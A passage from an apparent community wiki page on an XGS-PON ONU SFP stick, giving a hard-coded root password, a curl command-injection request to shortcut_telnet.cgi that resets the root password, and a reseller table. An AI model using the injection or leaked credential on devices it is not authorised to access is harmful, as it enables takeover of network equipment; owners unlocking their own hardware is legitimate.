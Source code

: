     The <ins>root</ins> password is undisclosed at this time, use the suggested exploit below to gain root privileges.

=== "Firmware &lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | root     | QpZm@4246#5753 |

??? bug "Exploit to temporarily change the root password"
    Run the following command(s) to temporarily change the root password to `root`.

    === ":material-microsoft: Windows"

        ``` sh
        curl.exe -s -o null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":simple-apple: macOS"

        ``` sh
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":simple-linux: Linux"

        !!! note "The following commands assume [Debian] or derivatives[^4]"

        ``` sh
        sudo apt-get install curl
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

## Value-Added Resellers

!!! tip "Participate in [group buys](/discord/#group-buys) on the 8311 Discord community server for discounted pricing"
    Pre-flashed with the [8311 community firmware](https://github.com/djGrrr/8311-was-110-firmware-builder) for easy
    setup and the shortest downtime.

| Company                                        | Product Number      | E-commerce                                                  | Firmware      |
| ---------------------------------------------- | ------------------- | ----------------------------------------------------------- | ------------- |
| [Ascent Optics](https://ascentoptics.com/)     | [XSPU-P9T9R-NxCM]   | [Chinese Alibaba] via Proxy [^8][^9] :globe_with_meridians: | PTXG (Potron) |
| [Azores Networks](https://azoresnetworks.com/) | XSS                 |                                                             | BFW/Azores    |
| [DZS](https://dzsi.com/)                       | 5311XP              |                                                             |               |
| [E.C.I. Networks](https://ecin.ca/)            | [EN-XGSFPP-OMAC-V2] | :check_mark: :globe_with_meridians:                         | BFW/Azores    |
| [FiberMall](https://www.fibermall.com/)        | [XGSPON-ONU-STICK](https://www.fibermall.com/sale-460693-xgspon-onu-sfp-stick.htm)  | :check_mark: :globe_with_meridians:                         | BFW/Azores    |
| [FEPL](https://ontolt.com/)                    | [XGSPON-ONU-STICK](https://www.alibaba.com/product-detail/XGSPON-ONU-Stick-SFP-TX-9_11000017407584.html)  | [Global Alibaba] :globe_with_meridians:                     |               |
| [HALNy Networks](https://halny.com/)           | HLX-SFPX            | [Flytec Computers] :flag_us:                                |               |


 [Architecture]: #architecture
 [WN25N01GW]: https://www.winbond.com/hq/product/code-storage-flash-memory/qspinand-flash/?__locale=en&partNo=W25N01GV
 [M02180]: https://www.macom.com/products/product-detail/M02180
 [Web Credentials]: #web-credentials
 [Shell credentials]: #shell-credentials
  [XSPU-P9T9R-NxCM]: https://detail.1688.com/offer/821866799456.html
  [Chinese Alibaba]: https://www.1688.com
  [EN-XGSFPP-OMAC-V2]: https://ecin.ca/custom-xgs-pon-sfp-stick-module-xgspon-ont-w-t-mac-function-mounted-on-sfp-package/
  [Global Alibaba]: https://www.alibaba.com
  [Flytec Computers]: https://flyteccomputers.com/halny-networks-hlx-sfpx
  [Debian]: https://www.debian.org/
[^1]: <https://www.bfw-solutions.com/en/gpon-family-141>
[^2]: <https://www.maxlinear.com/product/access/fiber-access/socs-for-optical-networking-units-onu/prx126>
[^3]: <https://en.wikipedia.org/wiki/Procfs>
[^4]: <https://www.debian.org/derivatives/>
[^5]: <https://en.wikipedia.org/wiki/Memory_Technology_Device>
[^6]: <https://en.wikipedia.org/wiki/UBIFS>
[^7]: <https://en.wikipedia.org/wiki/SquashFS>
[^8]: <https://www.superbuy.com>
[^9]: <https://www.pandabuy.com>
[^10]: <https://boxmatrix.info/wiki/Property:Falcon>
[^11]: [SFF-8472](https://members.snia.org/document/dl/25916)